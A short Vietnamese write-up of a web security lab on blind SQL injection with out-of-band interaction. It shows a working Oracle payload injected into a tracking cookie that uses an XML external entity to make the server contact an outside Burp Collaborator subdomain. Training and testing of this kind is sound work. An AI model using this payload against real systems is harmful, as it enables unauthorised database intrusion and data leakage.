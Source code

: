 # WEB
*Lab: Blind SQL injection with out-of-band interaction*
## Tóm tắt
Challenge chứa một lỗ hổng Blind SQL injection. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie đã gửi. Truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng thông với một tên miền bên ngoài. 
## Khai thác
1. Thay đổi TrackingID để kích hoạt đến một subdomain bên ngoài
- Thêm vào TrackingID trong request từ client payload:
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//<your_subdomain/">+%25remote%3b]>'),'/l')+FROM+dual--
- Với your_subdomain được lấy từ Burpsuite --> Collaborator --> Copy to clipboard
- Ở ví dụ này, subdomain lấy được từ Collaborator là tlicwtg3nq7jcvocgi518slc339uxkl9.oastify.com
![alt text](images/image_1.png)
- Và khi send request với TrackingID thay đổi như trên, bài lab đã được giải thành công chứng tỏ đã injection thành công, mở Burp Collaborator ta thấy các callbacks hiển thị
![alt text](images/image_2.png)
